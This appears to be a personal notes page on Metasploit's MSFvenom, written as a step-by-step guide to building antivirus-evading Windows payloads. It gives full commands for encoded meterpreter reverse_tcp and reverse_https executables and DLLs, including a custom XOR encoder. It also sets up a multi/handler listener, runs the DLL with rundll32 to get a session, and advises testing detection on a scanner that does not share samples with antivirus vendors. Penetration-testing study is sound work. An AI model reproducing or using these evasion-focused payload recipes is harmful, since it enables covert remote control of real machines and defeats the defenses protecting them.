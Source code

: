 - Generating payloads is just the first step; nowadays security products, such as Intrusion Detection Systems (IDSs), antivirus and anti-malware software, can easily pick up the shellcode generated by MSFvenom. To help us evade security, we can use encoders to encode our shellcode.

## Place where all encoders reside
```python
┌──(root㉿kali)-[/home/hyok]
└─# ls /usr/share/metasploit-framework/modules/encoders      
cmd  generic  mipsbe  mipsle  php  ppc  ruby  sparc  x64  x86
```

#### Listing all the encoders using metasploit
```python
┌──(root㉿kali)-[/home/hyok]
└─# msfconsole -q
[*] Starting persistent handler(s)...
msf6 > show encoders
```

## Encoding a payload
```python
msf6 > msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=192.168.216.9 -f exe -e x86/shikata_ga_nai -i 10 -o encoded.exe
```
- To encode one of our previous payloads, we simple add the `-e` option, followed by the encoder we want to use.
- We can use the `-i` option, followed by the number of times to encode the payload.

#### Verifying that your payload is detected by anvirus software or not, let's use virustotal:
Note - virustotal send the scan results of new payloads to the respected companies of antivirus software so that they can update their software. So, we can't use it instead we are going to use **[https://antiscan.me/](https://antiscan.me/)

**Note-2 - All of your encoders are placed inside kali linux machine in "/usr/share/metasploit-framework/modules/encoders/x86"

## Generating payload with dll output format

#### First, we will generate our payload using dll as the output format and set up our listener:
```python
┌──(root㉿kali)-[/home/hyok]
└─# msfconsole -q                   
[*] Starting persistent handler(s)...
msf6 > msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.216.9 -f dll -o inject.dll
```

#### Setting up a listener
```python
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_https
PAYLOAD => windows/meterpreter/reverse_https
msf6 exploit(multi/handler) > set LHOST 192.168.216.9
LHOST => 192.168.216.9
msf6 exploit(multi/handler) > run

[*] Started HTTPS reverse handler on https://192.168.216.9:8443
```

#### Loading/Running DLL inside Windows
![[MSFvenom_DLL_running_on_windows.jpeg]]
- Unlike an executable, we need to use another application to load our DLL payload.
- Above we use `rundll32.exe` to load the library and run our shellcode.
- To load the DLL, use `rundll32.exe`, followed by the DLL we created, and the entry point name `main`.
- After the above step you get a session in your handler running terminal

## Custom encoder
- Follow this https://github.com/Sogeti-Pentest/Encrypter-Metasploit/blob/master/bf_xor.rb to download the custom encoder.
- put the above encoder inside "/usr/share/metasploit-framework/modules/encoders/x86" with the name of bf_xor.rb.
```python
┌──(root㉿kali)-[/home/hyok]
└─# vim /usr/share/metasploit-framework/modules/encoders/x86/bf_xor.rb
```
- Example of how to use this encoder.
```python
┌──(root㉿kali)-[/home/hyok]
└─# msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.6 -f exe-only -e x86/bf_xor -o bf_xor.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/bf_xor
x86/bf_xor succeeded with size 547 (iteration=0)
x86/bf_xor chosen with final size 547
Payload size: 547 bytes
Final size of exe-only file: 73802 bytes
Saved as: bf_xor.exe
```


